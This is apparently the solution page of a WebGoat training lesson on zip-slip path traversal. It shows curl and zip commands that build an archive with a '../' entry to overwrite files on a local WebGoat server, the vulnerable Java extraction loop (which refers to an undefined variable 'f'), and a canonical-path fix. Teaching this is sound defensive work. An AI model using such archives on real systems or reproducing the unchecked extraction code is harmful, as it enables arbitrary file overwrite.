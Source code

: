 === Solution

First, let's create a zip file with an image inside:

[source]
----
curl -o cat.jpg http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip cat.jpg
----

Now let's upload this as our profile image. We can see nothing happens as mentioned in the assignment there is a bug in the software, and the result we see on the screen is:

[source]
----
Zip file extracted successfully failed to copy the image. Please get in touch with our helpdesk.
----

Let's create a zip file that traverses to the top and then back into the given directory in the assignment.

First, create the directory structure:

[source, subs="macros"]
----
mkdir -p webGoatTempDir:temppath[]PathTraversal/username:user[]
cd webGoatTempDir:temppath[]PathTraversal/username:user[]
curl -o username:user[] http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip ../../../../../../../..webGoatTempDir:temppath[]PathTraversal/username:user[]/username:user[].jpg
----

Now, if we upload this zip file, it solves the assignment.

=== Why did this work?

In the code, the developers used the following fragment:

[source%linenums]
----
ZipFile zip = new ZipFile(uploadedZipFile);
Enumeration<? extends ZipEntry> entries = zip.entries();
while (entries.hasMoreElements()) {
  ZipEntry e = entries.nextElement();
  File profilePicture = new File(uploadDirectory, e.getName());
  InputStream is = zip.getInputStream(e);
  Files.copy(is, f.toPath(), StandardCopyOption.REPLACE_EXISTING);
}
----

The fix is to make sure the resulting file in line 5 resides in the directory you expect. Same as with the path traversal mitigation, use `profilePicture.getCanonicalPath()` to ensure the path is the same as you expect it to be.
